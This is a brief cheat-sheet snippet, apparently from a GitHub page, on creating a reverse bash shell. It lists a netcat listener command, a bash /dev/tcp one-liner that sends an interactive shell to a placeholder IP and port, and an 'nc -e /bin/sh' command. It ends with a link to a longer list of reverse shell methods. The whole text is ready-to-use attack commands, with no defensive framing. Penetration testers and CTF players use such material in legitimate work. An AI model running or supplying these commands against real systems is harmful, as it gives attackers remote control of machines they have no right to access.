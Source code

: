 ### Create a reverse bash shell

- Setup listener on your local machine
`sudo nc -lvn 9898`

- Connect to the listener from the target
-  - `bash -c 'bash -i >& /dev/tcp/your-ip/your-port 0>&1'`
-  - `nc 127.0.0.1 8888 -e /bin/sh`


### A long list of ways to create a reverse shell
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
